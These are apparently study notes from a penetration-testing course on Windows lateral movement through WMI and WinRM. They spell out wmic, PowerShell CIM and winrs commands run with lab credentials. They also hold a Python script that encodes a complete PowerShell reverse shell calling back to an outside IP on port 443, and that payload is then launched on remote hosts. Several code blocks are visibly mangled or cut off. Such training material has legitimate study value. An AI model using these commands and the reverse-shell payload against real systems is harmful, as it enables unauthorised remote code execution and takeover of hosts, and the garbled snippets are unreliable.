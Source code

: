 - [_Windows Management Instrumentation_](https://learn.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page) (WMI), which is an object-oriented feature that facilitates task automation.
    
- WMI is capable of creating processes via the _Create_ method from the _Win32_Process_ class. It communicates through [_Remote Procedure Calls_](https://learn.microsoft.com/en-us/windows/win32/rpc/rpc-start-page) (RPC) over port 135 for remote access and uses a higher-range port (19152-65535) for session data.
    
- To demonstrate this attack technique, we'll first briefly showcase the _wmic_ utility, which has been [recently deprecated](https://docs.microsoft.com/en-us/windows/deployment/planning/windows-10-deprecated-features), and then we'll discover how to conduct the same WMI attack via PowerShell.
    
- We already encountered [_UAC remote restrictions_](https://learn.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction#domain-user-accounts-active-directory-user-account) for non-domain joined machines in the _Password Attacks_ Module. However, this kind of restriction does not apply to domain users, meaning that we can leverage full privileges while moving laterally with the techniques shown in this Learning Unit.
    
- `wmic /node:192.168.226.72 /user:jen /password:Nexus123! process call create "calc"`
    
- ```$username
    $password = 'Nexus123!';
    $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
    $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;```
    ```
    
- Now that we have our PSCredential object, we need to create a _Common Information Model_ (CIM) via the [_**New-CimSession**](https://docs.microsoft.com/en-us/powershell/module/cimcmdlets/new-cimsession?view=powershell-7.2) cmdlet.
    

To do that, we'll first specify DCOM as the protocol for the WMI session with the **New-CimSessionOption** cmdlet on the first line. On the second line, we'll create the new session, **New-Cimsession** against our target IP, using **-ComputerName** and supply the PSCredential object (**-Credential $credential**) along with the session options (**-SessionOption $Options**). Lastly, we'll define 'calc' as the payload to be executed by WMI.

- ```$options
    $session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options 
    $command = 'calc';```
    ```
    
- As a final step, we need to tie together all the arguments we configured previously by issuing the _Invoke-CimMethod_ cmdlet and supplying **Win32_Process** to the _ClassName_ and **Create** to the _MethodName_. To send the argument, we wrap them in **@{CommandLine =$Command}**.
    - `Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};`
- To simulate the technique, we can connect to CLIENT74 as _jeff_ and insert the above code in a PowerShell prompt. (Not all the code is shown below.)  
    - `$username = 'jen'; Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};`
- Script:
    - ```
        import sys
        import base64
        
        payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.118.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
        
        cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
        
        print(cmd)```
        - `python3 encode.py`
        - ```$username = 'jen';
        $password = 'Nexus123!';
        $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
        $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
        $Options = New-CimSessionOption -Protocol DCOM
        $Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options
        $Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
        HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';
        Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};```
        ```
        

s an alternative method to WMI for remote management, WinRM can be employed for remote host management. WinRM is the Microsoft version of the [_WS-Management_](https://en.wikipedia.org/wiki/WS-Management) protocol and it exchanges XML messages over HTTP and HTTPS. It uses TCP port 5986 for encrypted HTTPS traffic and port 5985 for plain HTTP.

In addition to its PowerShell implementation, which we'll cover later in this section, WinRM is implemented in numerous built-in utilities, such as [_winrs_](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/winrs) (Windows Remote Shell).

- **winrs**
    
    - `winrs -r:files04 -u:jen -p:Nexus123! "cmd /c hostname & whoami"
    - `winrs -r:files04 -u:jen -p:Nexus123! "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"`
- Make credential variable and enter new PSSesion
    
    - ```$username
        $password = 'Nexus123!';
        $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
        $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
        New-PSSession -ComputerName 192.168.226.72 -Credential $credential```
        ```
        
    - `Enter-PSSession 1`